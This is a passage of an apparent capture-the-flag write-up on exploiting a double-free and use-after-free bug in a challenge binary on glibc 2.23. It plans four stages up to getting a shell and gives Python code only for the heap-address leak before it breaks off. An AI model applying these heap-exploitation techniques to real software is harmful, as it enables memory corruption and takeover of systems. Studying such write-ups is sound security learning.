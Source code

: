 ```r
│     │     ; CODE XREF from sym.delete @ 0x134f
│     └───> 0x00001352      c9             leave
└           0x00001353      c3             ret
```

As you can see that the `obj.chungus` is not being checked for itself being already free or this pointer is not being updated once `free(chungus[idx])` is called.
The vulnerability was in this binary was of the double free and the given libc was `GLIBC 2.23`, so from that we know it could be considered to be just double free.
Also, the `show` function had UAF as well, allowing us to leak addresses.

##### Constraints

The reasonable constraint we had here is size check for the allocation which was only limited for the fastbin size apparently, even less being `111`.

# Exploitation

For the sake of understanding, I will split the exploit in 4 section, are as follows:-

* Heap Leak
* LIBC Leak
* Preparing for RIP control
* Get Shell


### Heap Leak

This is the foremost thing to do, meaning that we have to have a heap leak to carry out the whole exploit. So, to do so, we will just perform double free from the `delete` function and use the UAF in the `show` to leak the heap address, since `fd` of the chunk woule be populated as multiple chunks from the same size would be `free`. the linked list would be populated, hence giving us address of a chunk.

```py
malloc(0,0x40,b"A")  # chungus[0]
malloc(1,0x40,b"B")  # chungus[1]
malloc(2,0x40,b"C")  # chungus[2]
malloc(3,0x40,b"D")  # chungus[3]
malloc(4,0x40,b"E")  # chungus[4]

free(0)
free(1)
free(0)
```
Now, the free list would be ` chunk[0]->chunk[1]->chunk[0]`. Now, we will leak the heap address.


```py
heap_leak = show(0)[1:7]
heap_leak = u64(heap_leak+b"\x00\x00")
log.info(f"HEAP:  {hex(heap_leak)}")
```

### LIBC Leak

